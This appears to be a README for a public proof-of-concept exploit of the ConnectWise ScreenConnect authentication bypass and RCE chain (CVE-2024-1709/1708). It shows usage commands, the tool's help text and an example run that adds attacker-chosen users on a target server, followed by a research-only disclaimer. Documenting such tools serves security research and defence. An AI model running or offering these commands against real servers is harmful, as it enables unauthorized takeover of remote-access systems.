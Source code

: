 #
<h2>CoonectWise Remote Code Execution</h2>

- <b>Common Vulnerabilities and Exposures ID: CVE-2024-1709</b>

- <b>CVSS v3 Score: 9.5 (Critical)</b>
  
- <b>Description: This is a critical authentication bypass vulnerability affecting ConnectWise ScreenConnect versions 23.9.7 and earlier. This vulnerability allows an attacker to bypass authentication and gain unauthorized access to systems and sensitive information. </b>

## POC
[Root Cause Analysis (RCA) & Indicators Of Comprimise (IOCs):](https://arcticwolf.com/resources/blog/cve-2024-1709-cve-2024-1708-follow-up-active-exploitation-and-pocs-observed-for-critical-screenconnect-vulnerabilities/)

## Usage
```
pip install requests
# python 
check.py
python batchAdduser.py
```
![](https://
github.com
/W01fh4cker/ScreenConnect-AuthBypass-POC-EXP/assets/101872898/9f9be7be-d607-4fcf-97dc-2d8a4939db5e)

```text
python ScreenConnect-AuthBypass-RCE.py -h

usage: ScreenConnect-AuthBypass-RCE.py [-h] [-u USERNAME] [-p PASSWORD] -t TARGET [-d DOMAIN] [--proxy PROXY]
                                                                                                             
CVE-2024-1708
 && 
CVE-2024-1709
 --> RCE!!!                                                                    
                                                                                                             
optional arguments:                                                                                          
  -h, --help            show this help message and exit                                                      
  -u USERNAME, --username USERNAME                                                                           
                        username you want to add                                                             
  -p PASSWORD, --password PASSWORD
                        password you want to add
  -t TARGET, --target TARGET
                        target url
  -d DOMAIN, --domain DOMAIN
                        Description of domain
  --proxy PROXY         eg: http://127.0.0.1:8080
```
For example:
```shell
python ScreenConnect-AuthBypass-RCE.py -t http://192.168.9.100
```

## Execution:
* -u or --username: Enter a username to potentially use in the attack.
* -p or --password: Enter a password to potentially use in the attack.
* -t or --target: Specify the URL of the target ScreenConnect server.
* -d or --domain (unclear purpose): Might be for specifying a domain name related to the target.
* --proxy: Allows using a proxy server for the attack (optional).

## Aditional Information:

[ConnectWise Control Security Evaluation Matrix:](https://www.connectwise.com/globalassets/media/documents/connectwisecontrolsecurityevaluationmatrix.pdf)

## SecAdmin Notes
This software has been created purely for the purposes of academic research and for the development of effective defensive techniques, and is not intended to be used to attack systems except where explicitly authorized. Project maintainers are not responsible or liable for misuse of the software. Use responsibly.

